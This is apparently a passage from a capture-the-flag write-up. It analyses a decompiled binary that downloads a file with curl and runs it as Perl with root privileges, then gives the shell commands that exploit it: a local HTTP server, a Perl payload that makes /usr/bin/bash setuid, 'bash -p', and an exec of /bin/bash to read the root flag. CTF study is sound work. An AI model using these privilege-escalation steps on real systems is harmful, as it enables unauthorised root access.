 ```c
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
A detailed look at the code:
1. Terminate execution if the program's arguments is not equal to three, the user running the binary is not root, and the param_2 value does not equal 'lDnxUysaQn'
2. Open with "fopen" function, a file at memory location "param_2 + 0x10" in "wb" (write in binary) mode and assign the resulting file stream to `__stream`.
3.  Initializes a cURL session using "curl_easy_init()" and assign the resulting handle to the variable "uVar3".  Set the cURL options "CURLOPT_URL" to the value at memory location "param_2 + 8" using `curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8))`, "CURLOPT_WRITEDATA" to the file stream `__stream` using `curl_easy_setopt(uVar3,0x2711,__stream)`, "CURLOPT_FOLLOWLOCATION" to 1 using `curl_easy_setopt(uVar3,0x2d,1)` and performs the cURL session using `curl_easy_perform(uVar3)` and assign the return code to the variable "iVar2".
4.  If the code is 0, indicating success, it uses `snprintf` to write the filename at memory location "param_2 + 0x10" to a null-terminated string, allocating memory for the string (`__s`) using `malloc` and the command to execute `perl ./filename`  to another null-terminated string, allocating memory for the string (`__s_00`) using malloc.
5. Closes the file stream using `fclose(__stream)`, cleans up the cURL session using `curl_easy_cleanup(uVar3)`, sets the user ID to 0 using `setuid(0)`, runs the commands "perl ./filename" using `system(__s_00)` and "rm -f ./lDnxUysaQn" using `system("rm -f ./lDnxUysaQn")` to delete the file and finally returns 0. If the return code is not 0, indicating failure, it prints the message "Exiting... " and terminates the program.
```shell
# start a horizontally spiltted terminal and ssh into the box on both of them.
# terminal one
python3 -m http.server 8004 # start a python server

# terminal two
# Technique 1
echo -e '`chmod 6711 /usr/bin/bash`' > escalate.pl   
sudo binary http://127.0.0.1:8004/escalate.pl lDnxUysaQn
bash -p

# Technique 2
printf 'exec "/bin/bash";\n' > root.pl  
sudo binary http://127.0.0.1:8004/root.pl lDnxUysaQn

cat /root/root.txt  # capture the root flag
```